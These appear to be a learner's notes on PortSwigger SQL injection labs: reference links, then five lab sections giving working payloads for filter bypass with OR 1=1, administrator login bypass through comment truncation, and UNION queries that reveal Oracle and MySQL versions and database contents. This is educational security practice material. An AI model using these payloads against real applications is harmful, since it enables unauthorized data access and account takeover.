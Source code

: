 - https://portswigger.net/web-security/sql-injection 
- https://portswigger.net/web-security/sql-injection/cheat-sheet

 - [How to Bypass SQL Injection Filter](https://www.hackingarticles.in/bypass-filter-sql-injection-manually/)
 - [Form Based SQL Injection](https://www.hackingarticles.in/form-based-sql-injection-manually/)

- https://book.hacktricks.xyz/pentesting-web/sql-injection
- https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

## **1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**
SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```


## **2. SQL injection vulnerability allowing login bypass**
SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```


## **3. SQL injection querying the database type and version on Oracle**
 ```
 'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 'UNION SELECT 'a', banner FROM v$version--
```


## **4. SQL injection attack, querying the database type and version on MySQL and Microsoft**
In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 'UNION SELECT'a','b'#
```

 Display the database version:
```
 'UNION SELECT 'a', @@version#
 ```


## **5. SQL injection attack, listing the database contents on non-Oracle databases**
```
' UNION SELECT 'abc','def'--
```
